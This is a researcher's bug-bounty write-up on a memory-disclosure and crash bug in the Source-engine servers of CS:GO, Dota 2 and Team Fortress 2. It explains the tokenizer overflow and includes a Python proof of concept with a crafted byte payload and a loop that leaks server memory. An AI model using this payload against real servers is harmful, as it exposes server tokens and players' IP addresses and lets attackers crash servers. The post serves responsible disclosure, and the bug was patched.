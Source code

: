 # Valve Bug Bounty

![csgo in game console leaking a GSLT token](/images/featured.jpg)

For many years CS:GO, Dota 2, and Team Fortress 2 servers had a bug that allowed malicious users to leak crucial server process memory or reliably crash any server.

In 2019, a fellow hacker and I conducted this research by digging into the Valve dedicated server with a fuzzer, elbow grease, and plenty of reverse-engineering.

## I'm not sure the server should be sending that information to us in our in-game console...

![GIF showing the csgo in game console printing server memory information](/images/csgo_leak_rcon.gif)

## Leaking server process memory - Official GSLT tokens that authenticate Valve servers

![csgo in game console leaking a GSLT token](/images/csgo_leak_gslt.jpg)

We used AFL to fuzz the counter strike server, `srcds.exe`. Next, we found some likely places to hook in the server and landed on the function `ExecuteStringCommand()` in `engine.dll`.  This is the function responsible for taking user console input and executing it on the server to do things like:

```
/say hello all
/sayteam hello team
sv_cheats 1
```

The server takes the input from the user, tokenizes it (e.g. "/say hello all" becomes { "/say", "hello", "all" }).

Suppose a user sends a malicious string to the server. In that case, the server will leak back process memory, which contains sensitive GSLT server tokens and anything else in the process memory, or crash. The server passes a pointer to `sprintf("Unknown command: %s", ...)` that we control.

The bug has likely been present in all of these games for many, many years.

___

## Technical Details (CVSS 8.2)

### Overview

Entering an unknown command into the in-game console, passes it to the server which will find and run the command. The server will tokenize the command string, with the first token treated as the command name and subsequent tokens as arguments. Each token is copied into a string buffer, null-terminated, and a corresponding pointer to the token will be copied into a second buffer just below.

If the server can't find a matching command, it lets the client know by returning a message with the format "Unknown command: %s" and the command name as the argument.

Because the buffer containing the null-terminated tokens and the buffer containing the pointers are adjacent, overflowing the first buffer allows overwriting the pointers in the second buffer with user-control data. When the first token pointer is later used as an argument to ```sprintf()```, the server memory contents at that address will be returned to the client, or an invalid pointer can be supplied, crashing the server.

### Tested On

* Dota 2 ClientVersion 3476 (dota2.exe, localhost lobby)
* CS:GO 1.36.9.5 (srcds.exe)
* Team Fortress 2 ClientVersion 5097991 (srcds.exe)

### Impact

* This exploit affects 3 of the top 7 games on Steam: Dota 2, CS:GO, Team Fortress 2.
* We were able to leak our Game Server Login Token (GSLT), connected players’ IP addresses, any messages from the server's console, etc.
* We were able to 100% reliably crash our server by supplying an invalid memory address.
* Any player logged on to the server can send the command, even spectators.
* The overflowed buffer is on the stack, meaning RCE would be possible if enough pointers were overwritten; however, we could only overwrite 14 in our initial tests.
* Tested on Windows and Linux (Windows 10 1803, Ubuntu 18.04).


### Details

When a server receives a client’s string command, it gets passed into ```ExecuteStringCommand()``` for processing, which calls ```CCommand::Tokenize()``` to extract the command name and arguments. During this process the command name and arguments are tokenized and copied to ```m_pArgvBuffer``` and a null-terminator is placed at the end of the token. A pointer to each token is then placed in ```m_ppArgv```. We believe the cause of the exploit is not properly accounting for the length of null-terminators, or possibly special characters, during tokenization. This allows ```m_pArgvBuffer``` to be overflowed.

After tokenization, the server will attempt to find and run the command. However, if no matching command is found, the name of the command, which is held in ```m_ppArgv[0]```, is passed to a sprintf-like function and returned to the client. This results in the following:

* If ```m_ppArgv[0]``` has been overwritten with a valid memory address, then arbitrary data will be returned to the client due to the sprintf argument pointing to arbitrary memory, with some limitations.
* Data cannot be longer than 128 bytes due to a length check on the command name.
* Data will stop at the first null.
* If ```m_ppArgv[0]``` has been overwritten with an invalid memory address, the server will crash with a memory access violation when comparing the command name.

### Pseudocode

```c++
class CCommand
{
    ...
    char   m_pArgvBuffer[512];    // Holds null-terminated tokens. This is the buffer we overflow.
    char*  m_ppArgv[64];          // Holds pointers to each token. Victim buffer.
    ...
}

CGameClient::ExecuteStringCommand(char* pCommand)
{
    CCommand cmd;

    // After this call m_pArgVBuffer has overflowed into m_ppArgv.
    cmd::Tokenize(pCommand, 3, 0);

    ...

    // This is sent back to the client. If the pointer has been overwritten
    // data at that address will be leaked.
    UTIL_VarArgs("Unknown command: %s\n", cmd.m_ppArgv[0])
}
```

### Reproduction

1. Pass a malformed command to ExecuteStringCommand().

Notes:

* In our PoC code we locate and call ```CCommand::Tokenize()``` in ```engine.dll``` with our test data to demonstrate the overflow.
* In our memory-enumeration demo we send a specially-crafted payload, which has the target address positioned to overwrite the necessary pointer.
* ```SendDatagram()``` is used directly to avoid length and encoding restrictions imposed by the in-game console, resulting in more reliable exploitation.

## Partial Memory Disclosure POC

```python
...

# Returns data with a header prepended
def make_chat_packet(cmd_data):

    cmdlen = bitpack(len(cmd_data))
    packetlen = bitpack(len(cmdlen) + len(cmd_data) + 1)

    # <cmd> <packetlen> 0A <cmdlen> <cmd>
    packet = bytearray()
    packet.append(0x05)
    packet += packetlen
    packet.append(0x0A)
    packet += cmdlen
    packet += cmd_data

    return packet

cmd_data =  "\x73\x61\x79\x20\x22\x80\x80\x80\x80\x80\x80\x80\x6f\x72\x77\x7e\x22\x6c\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x72\x6c\x90\x20\x77\x6f\x0b\x2b\x2b\x2b\x2b\x2b\x2b\x2b\x2b\x2b\x2b\x2b\x36\x35\x35\x50\x7f\x33\x35\x35\x2b\x2b\x2b\x1d\x2b\x36\x35\x06\x35\x35\x35\x35\x58\x35\x33\x35\x35\x35\x35\x35\x35\x35\x34\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x2c\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x37\x35\xff\xff\xff\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x37\x35\x3f\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x37\x35\x3f\x35\x3b\xff\xff\xff\x7f\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x47\x35\x3f\x35\x35\x35\x35\x35\x35\x37\x35\xff\xff\xff\x35\x35\x35\x35\x35\x64\x37\x35\x23\x35\x35\x35\x49\x6f\x20\x3c\x35\x35\x1f\x53\x2b\x35\x2b\x2b\x35\x35\x35\x35\x35\x35\x2c\x35\x35\x35\x35\x35\x35\x35\x35\x37\x35\x3f\x35\x35\x35\x35\x35\x4a\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x01\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x77\x6f\x2b\x2b\x2b\x2b\x2b\x2b\x2b\x2b\x2b\x2b\x2b\x2b\x36\x35\x33\x35\x35\x2b\x2b\x2b\x2b\x2b\x36\x35\x12\x35\x35\x35\x35\x58\x35\x33\x35\x35\x35\x35\x35\x26\x35\x35\x72\x35\x35\x35\x35\x35\x37\x35\xff\xff\xff\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x37\x35\x3f\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x37\x35\x3f\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x3f\x35\x35\x35\x35\x35\x35\x37\x35\xff\xff\xff\x35\x35\x35\x35\x35\x35\x37\x35\x23\x35\x35\x35\x49\x6f\x20\x3c\x3f\x35\x1f\x53\x6c\x6c\x6c\x6c\x6c\x35\x35\x35\x35\x35\x2c\x35\x35\x35\x35\x35\x35\x35\x35\x37\x35\x3f\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x35\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x1e\x35\x35\x2c\x31\x2b\x2b\x2b\x2b\x2b\x2b\x35\x35\x22\x21\x05\x2c\x05"

packet = make_chat_packet(cmd_data)

# Address to read from
addr = 0x124DB120
end = addr + 0x100
step = 8

while addr + step < end:
    # Check we can get this address
    valid = check_ptr(addr)
    if valid:
        print(f'Leaking server memory at {hex(addr)}')
        addr_bytes = pack('i', int(addr))
        packet[-4:] = addr_bytes
        # Exploit
        send_packet(packet)
        time.sleep(0.15)
    else:
        print(f'Skipping {hex(addr)}')
    addr += step
```

---

## Disclosure timeline:
* May 15th, 2019 - Write-up and proof of concept submitted to Valve.
* May 20th, 2019 - POC verified.
* Sept. 4th, 2019 - Valve awarded $7,500 bounty "because of the potential business impact of memory disclosure of official game servers."
* Dec. 2019 - Valve patched the vulnerability.
* August 2021 - Valve notified us they fixed the issue in 2019. After following up with hackerone for 2 years.

___

❤️ for reading.